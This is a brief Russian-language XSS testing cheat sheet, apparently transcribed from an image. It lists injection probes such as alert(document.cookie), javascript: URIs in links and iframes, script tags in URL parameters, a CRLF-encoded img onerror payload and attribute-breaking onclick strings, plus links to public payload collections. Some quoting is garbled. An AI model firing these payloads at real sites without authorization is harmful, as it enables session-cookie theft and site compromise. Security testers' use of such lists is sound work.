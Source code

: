 # Поиск точек для ввода
Открыть консоль и вписать alert('test') alert(document.cookie)

Вставить текст и понять где на странице отобразилось сообщение: '">test&lt;
HTML Injection
CSS Injection
<a href="javascript:alert(1)">Link</a>
<iframe src="javascript:alert(1)"></iframe>

# Проверка URL
?returnTo=javascript:alert(document.cookie)
/search.php?q=<script>alert(document.cookie)
index.php?name=<script>alert(1)</script>
index.php?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E

# Проверка форм

# Проверка DOM
Console:
```
let div = document.createElement("div");
let p = document.createElement("p");
div.append(p);
console.log(div.childNodes); // NodeList [ <p> ]
```
<img src=""/resources/images/tracker.gif?searchTerms=asdf"" onload=""alert(1)"">
 "" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//"	"
 
 
# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/coffinxp/payloads/tree/main"
https://aszx87410.github.io/beyond-xss/en/
